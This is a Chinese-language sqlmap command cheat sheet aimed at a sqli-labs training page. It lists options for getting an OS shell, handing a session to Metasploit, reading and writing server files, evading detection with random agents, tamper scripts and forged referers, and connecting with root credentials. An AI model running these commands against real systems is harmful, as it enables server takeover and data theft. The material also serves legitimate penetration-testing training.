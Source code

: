 ```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```

